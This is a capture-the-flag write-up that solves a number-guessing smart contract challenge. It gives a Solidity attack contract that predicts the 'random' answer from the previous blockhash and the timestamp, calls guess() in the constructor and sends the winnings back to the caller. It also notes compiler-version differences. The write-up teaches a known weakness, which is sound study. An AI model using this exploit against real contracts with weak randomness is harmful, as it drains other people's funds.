 #### Solution

We just need to code a contract that generates the number the exact same way prior to guessing it. ~~For some reason that I don't quite understand though, the `guess()` call simply would not go through until I tried to do it through the constructor of the contract.~~ I simply didn't have a fallback function to receive the funds, so it worked in the constructor of the contract because before finalizing constructor execution, the funds would have already been sent to my address, but if a fallback function is added, then the funds can be properly received by the contract and the transactions won't fail.

I coded the contract as follows:

```js
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.5 <0.8.0;

contract GuessTheNewNumberAttack {
    constructor(address payable challenge) public payable {
        // low-level call success
        bool success;

        // check that we're forwarding the correct amount of funds
        require(msg.value == 1 ether, 'msg.value should be at least 1 ether');

        // get answer
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        
        // make the guess
        (success,) = challenge.call{value:1 ether}(abi.encodeWithSignature("guess(uint8)", answer));
        require(success, "guess failed");

        // send funds back to my account
        (success,) = msg.sender.call{value:address(this).balance}("");
        require(success, 'call failed');
    }
}
```

On deployment, the guess was successful (as it runs in the constructor) and the balance is sent back to my wallet. By simply deploying this contract, the challenge is solved.

This can be solved similarly in the same version of the solidity compiler that the challenge is originally using (0.4.21), but given that I'm using a newer version, there's some small nuances due to changes in the solidity compiler since then:

- `block.blockhash()` has been replaced by `blockhash()`
- `now` has been deprecated in favor of `block.timestamp`
- Now it's not possible to pass multiple parameters to the `keccak256()` hash function, so we must use `abi.encodePacked()` before passing it to `keccak256()`
- It is not possible to cast directly from a hash to uint8, so we must first pass through a type that has the same size in bytes as the value returned by the hash function, so we first cast to uint256 and then to uint8.
